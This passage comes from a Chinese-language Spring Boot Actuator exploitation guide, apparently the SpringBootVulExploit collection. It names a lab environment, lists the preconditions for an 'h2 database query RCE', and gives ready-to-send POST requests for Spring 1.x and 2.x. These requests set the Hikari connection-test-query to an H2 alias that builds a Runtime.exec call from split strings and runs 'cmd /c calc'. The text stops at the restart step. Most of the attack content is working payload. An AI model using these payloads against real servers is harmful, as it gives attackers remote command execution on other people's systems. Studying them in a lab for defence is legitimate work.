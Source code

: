 

#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```



### 0x06：h2 database query RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用（存在 spring-boot-starter-actuator 依赖）
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）



#### 利用方法：

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发



spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```



##### 步骤二：重启应用

spring 1.x
